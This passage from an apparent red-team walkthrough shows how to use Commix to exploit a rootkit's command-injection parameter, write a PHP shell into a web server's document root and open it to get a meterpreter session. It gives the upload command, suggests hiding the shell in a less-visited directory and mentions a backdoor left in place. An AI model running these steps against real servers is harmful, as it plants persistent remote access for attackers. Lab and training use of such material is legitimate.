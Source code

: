 To proceed, it is necessary to upload the previously created PHP shell to the web server using Commix. This can be accomplished by executing the subsequent command:

```bash
commix -u http://<SERVER-IP>/authg?c=id --file-write=’/home/kali/Desktop/shell.php’ --file-dest=’/var/www/html/shell.php
```

For this particular scenario, we intend to upload the file "shell.php" to the root of the web server. Nonetheless, it is advisable to upload it to a less commonly accessed directory.

Upon successful uploading of the "shell.php" file, you should receive a notification resembling the one displayed in the accompanying screenshot.

![](../../assets/img/redteam/ld8.png)

Accessing the specified URL on your web browser leads to locating the "shell.php" file on the web server, which ultimately enables us to obtain a meterpreter session on the target.>

```bash
http://<SERVER-IP>/shell.php
```

By accessing the URL through your browser, the PHP code will be executed, and you should be able to obtain a meterpreter session on your listener, as demonstrated in the accompanying screenshot.

![](../../assets/img/redteam/ld9.png)

We have accomplished the successful configuration of the apache-rootkit module and exploited its command injection feature to execute arbitrary commands on the target system. Additionally, we uploaded a PHP backdoor that facilitates a meterpreter session for you.